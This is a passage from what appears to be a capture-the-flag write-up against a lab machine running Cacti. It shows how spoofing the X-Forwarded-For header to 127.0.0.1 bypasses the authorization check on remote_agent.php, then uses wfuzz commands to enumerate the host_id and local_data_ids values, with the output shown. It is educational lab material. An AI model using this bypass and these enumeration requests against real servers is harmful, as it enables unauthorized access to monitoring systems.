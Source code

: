 It reliably fails without the proxy, and works with it. It might make a nice Beyond Root someday, but I can’t figure out what is happening there.

#### Manual

I can exploit this manually. If I just visit `http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=1&poller_id=1` in Firefox, it returns a non-authorized error:

![image-20230429173924683](/img/image-20230429173924683.png)

If I submit that again, but intercept the request in Burp, and add the `X-Forwarded-For` header like this:

![image-20230429174057033](/img/image-20230429174057033.png)

The the result comes back:

![image-20230429174124397](/img/image-20230429174124397.png)

I’ll use `wfuzz` to experiment with different values in `local_data_ids[0]` and `host_id`. The default response is just `[]`, so I’ll use `--hh 2` to filter out two character responses. If I fuzz the `host_id`, only “1” has data:

```

oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1
Total requests: 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                   
=====================================================================

000000001:   200        0 L      1 W        54 Ch       "1"                                                                       

Total time: 0
Processed Requests: 100
Filtered Requests: 99
Requests/sec.: 0

```

When I fuzz the `local_data_ids[0]`, it seems that 1-6 return different data:

```

oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1
Total requests: 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
```